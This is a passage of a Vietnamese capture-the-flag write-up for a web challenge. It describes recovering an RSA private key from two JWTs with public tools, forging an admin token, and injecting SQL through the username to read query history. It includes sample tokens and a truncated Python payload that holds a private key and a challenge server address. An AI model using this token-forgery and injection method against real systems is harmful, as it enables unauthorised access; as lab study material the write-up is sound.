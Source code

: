   ```
- Mình thấy flag sau khi được insert vô thì bị xóa ngay sau đó, vậy ý tưởng của mình bài này sẽ là:
    + Đầu tiên cần tìm được `private_key` để ký 1 cái jwt mới với giá trị `username` mình muốn.
    + Giá trị `username` đưa vào câu query mà mình có thể sqli => ở đây mình chỉ cần bypass các kí tự bị filter để hoàn thành việc này.
    + Sau khi sqli thành công thì mình sẽ chèn câu query đọc lại `history` của các query đã thực hiện.

### Payload
- Cách gen ra được `private_key`:
    + Đầu tiên mình sẽ get 2 token

    ```
    eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwibm93IjoxNjQwMDI3MDg2LjYzODM3MzR9.BRZLl0UVOPUpE92vbUX2gozSiT8zfQOMeNbU5IozhknBSAcepYErpOd8UAvJS5U2rNg_Kc2wh4nmUqn6vaHyAD_1OxXu7s_FEOMiYjNi1X7DqEp7G6mVkt3pbFN2BPqamvQW1MhWfl_maPHV

    eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwibm93IjoxNjQwMDI3MTA5LjYwNjkwNDN9.EJiHZT_u9yZtqYyQDOoW69SKsBwmrMxZtreoWqPSkZV3rMpmS1jZ0Hppat65KFAUJh67yTar4I63ys2eMthq5h0tMnQrdl9BiIiPxCEOIWCZAAGNMhSbnjhxUxOPZLsxPhgGcN6op42XKzLU
    ```

    + Sử dụng tool [rsa_sign2n](https://github.com/silentsignal/rsa_sign2n) để thực hiện việc gen ra `public_key` trước.

    ![image](https://user-images.githubusercontent.com/54855855/146819604-e827d9d4-3799-4fd5-8ec5-555d045c932b.png)

    + 2 file được tạo ra đó chính là `public_key`.
    + Tiếp theo sử dụng tool [RSA_tool](https://github.com/Ganapati/RsaCtfTool) để gen ra `private_key` như mình mong muốn. Nhưng để gen được đoạn này thì cần copy content của 1 trong 2 file đã được tạo ở bước trên vô folder của tool này.

    ![image](https://user-images.githubusercontent.com/54855855/146820124-7d1530b5-a096-4cf5-8fa1-d8d23cf77d17.png)

    + Sau đó chạy file `RsaCtfTool.py` như sau:

    ![image](https://user-images.githubusercontent.com/54855855/146820395-a4574f9f-7cba-4938-8f4e-185866851aa6.png)

    + Vậy là đã tìm được `private_key`

- Sau khi gen được `private_key` thì bây giờ là việc sử dụng nó để kí 1 jwt mới với `username` mình mong muốn nhưng phải chứa `admin` trong đó.
- Final payload:

```py
import jwt
import requests

url = 'http://45.122.249.68:10013/'

private_key = """-----BEGIN RSA PRIVATE KEY-----
MIIByQIBAAJsEOk75AnYhq1Z8+WrGlfJ3Mq2hFtYcImMo+xPyeDrIar9lEEYQ1xc
C4YgAWd4w8AIFm4Sj6cTD09IlAjB+Kp9Dnjh9Fzn2nyuCzQqBSREMseoYNGwt1KH
kvbP4A3qJE2A7gpmInHDWu4Vxd/DAgMBAAECbAwlhm8V4B1SlpBfYMHnv6MYzJNV
zc6ix6NClMcAiPtFW6GMA0jxohWnwx1LFtOKNDq57dzbK/0ojFNdW19VyE7CvMjw
8LZBy4mkAGNmPw/sqa6Te+WfyVLGxU/yJ5ea4CHnQ7RGUDSTEENJQQICA1UCawUT
RxhSL5OPj73xfq4rwO8hhuhl1+qNhSTkLsE9Mw800VsDB5T3Z43QBM2znJcvIL0z
8Smcrvx91Y6Q4kegtZaAHWXZQa6Dp8dWyHv9rdPRFDiq+U/tjTo2Q8n+xh6z697/
0dKD+wEt8Ya3AgFZAmsDcHjxZmCPYu5KDemHJmdspg/CVaHodVcRFQEKOurrFyP4
xSjSLoaid6GJtHodifZpwVVgmamLucqK/mwZljL4doF1j7EPDnEYiRr7y4GM1Vca
v+KL47OdC0ENFfY0wEDLshkCzCXBOt0+KQICAsA=
  ```